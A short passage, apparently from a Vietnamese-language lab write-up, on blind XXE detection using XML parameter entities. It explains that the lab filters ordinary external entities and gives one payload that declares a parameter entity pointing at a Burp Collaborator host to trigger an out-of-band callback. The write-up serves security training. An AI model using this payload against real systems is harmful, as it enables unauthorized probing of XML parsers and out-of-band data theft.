

## Blind XXE with out-of-band interaction via XML parameter entities

1. Theo như mô tả, lab này sẽ triển khai các biện pháp validation đầu vào và block các XML external entity hay dùng. Thay vào đó sử dụng XML parameter entity để có thể tham chiếu trục tiếp trong DTD.
- Payload: ```<!DOCTYPE test [<!ENTITY % xxe SYSTEM "http://cl15phxjuc2mwtrtrc42pdodp4vujj.burpcollaborator.net"> %xxe; ]>```

